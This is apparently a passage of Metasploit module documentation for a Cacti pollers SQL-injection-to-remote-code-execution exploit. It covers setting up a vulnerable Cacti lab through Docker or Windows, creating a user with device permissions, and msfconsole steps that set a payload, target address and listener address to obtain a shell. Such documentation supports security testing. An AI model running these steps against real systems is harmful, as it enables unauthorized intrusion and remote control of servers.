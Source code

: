     $cacti_session_name = 'Cacti';
    $cacti_db_session = false;
    $disable_log_rotation = false;
    ```
- Run `docker-compose up`
- Access http://127.0.0.1:8080
- Login with the `admin` user (password: `admin`)
- Follow the installation steps (accept every default settings and ignore the pre-installation checks suggestions)

Note that other version can be installed this way by changing the `tar` file name in `Dockerfile` (`cacti-1.2.25.tar.gz`).


### Cacti on Windows
Download and run a Cacti installer from [here](https://files.cacti.net/cacti/windows/Archive/). The `admin` password should be put in a file called `Cacti-Passwords.txt` by the installer, which is in the same location the installer was run.
Follow the same installation steps as for the Docker installation.


### Setup a new user
- Login with the `admin` user (password: `admin`)
- Go to `Configuration` > `Users`
- Click on the `+` sign
- Enter the `User Name`, `Password` and check the `Enabled` option.
- Click `Create`
- Go to the `Permissions` tab and set the `Sites/Devices/Data` permission in `General Administration`
- Click `Save`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/cacti_pollers_sqli_rce`
1. Do: `set target <target>`
1. Do: `set payload <payload>`
1. Do: `run rhost=<target address> rport=<target port> lhost=<local address> username=<username> password=<password>`
1. You should get a shell.

## Options

### USERNAME
The user to login with (default `admin`).

### PASSWORD
The password to login with (default `admin`)
